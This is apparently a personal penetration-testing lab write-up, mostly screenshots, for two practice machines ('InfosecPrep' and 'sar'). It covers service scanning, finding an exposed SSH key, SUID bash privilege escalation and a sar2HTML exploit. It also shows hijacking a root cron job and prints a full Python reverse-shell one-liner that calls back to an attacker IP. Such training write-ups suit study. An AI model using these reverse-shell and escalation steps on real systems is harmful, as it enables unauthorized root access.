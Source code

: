 # InfosecPrep 192.168.239.89

## Service Scanning
In this step i uesed <b> nmap </b>  with option -sV 
``` man
  -sV : Probe open ports to determine service/version info
```
* <b>result :</b>
  
![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.10.png)

as shown in the image below I got in result open port 80 running HTTP server and 22 running ssh. now I know that there is a web app on this server I get into the web app and found a website hosted using WordPress and an article on the website. image to the website after reading the article I can see a small hint about the user of this box. now the service scanning step is done we can go to the next step .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.39.png)
 ## Web Enumeration

In this step i used Directory/File Enumeration using ffuf tool with a common wordlist.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.20.09.png)

from ffuf result i can see that there is a robots.txt i check it and found a dissalowed dirctory i check it too and found secrect.txt .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.22.33.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.23.03.png)

the secret.txt contain encrypted data after i decode it with base64 tool i got ssh privet key and this is a sestive data sherd publicy i can use it to ssh to the server remotly using `ssh -i option` becuse i already know the username ,
after access to the server now we are in but only as oscp user we want go as root so we will check if the is any way to upgrade Privilege to root so this is the next step.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.25.49.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.26.22.png)

## Privilege Escalation

After  accsees to machine we will check how we can do Privilege Escalation ,
there is a command i used to check if there is suid blalba .
`find / -perm -u=s 2> /dev/null`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.28.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.29.png)

as we can see there is some binarys as suid we can check GTObin how we can use this binary to escale privilege to root , from the result we can see that bash in the list and from gtofbin that bash can escale privilage using `bash -p`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.31.00.png)

and finly we are root.

# sar 192.168.239.89

In this machine i did all the same steps as the first machine but in the step 
<b>Web Enumeration </b> I didn't find any sensitive data i found only a diroctry to sar2HTML i check that dirocrty and i got a sar service runing on server i check if the version of sar if it expots and from explots db i can see there is a vournably i can use it to run shell code exuction as a revers shell what i did first i check ls command and whoaim after that i run server with nc lesing in my ip and port i provide and setablish a connection using a socket with help of python command finaly i have shell form the server I'm now as www-data user .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.06.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.46.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.37.35.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.01.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.13.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.54.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.39.31.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.40.07.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.41.40.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.42.42.png)


## Privilege Escalation

In this machine also i check if there is any binary to use to escale privilage but unfornaty i did not fine any so i checked crontab i found there is a script called finally.sh run every 5 minit with root permition so find this script location i cat it and got that script called onther script called write.sh but write.sh owned by www-data and finnaly.sh with root user so i can use this to make crontab run somting for me as root by changing the write.sh so what i did i removed the write.sh from server i and i create new now in my machine with .
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.55.200",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
and run a http server from my machine and download it to the server using wget after that i changed permtion to make it exuxtbale bacause the finnaly script call write script with ./write it need permmtion to excyte now all i need to wait 5 minte to get revese shell with as root .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.19.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.56.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.45.10.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.00.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.57.14.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2001.05.16.png)
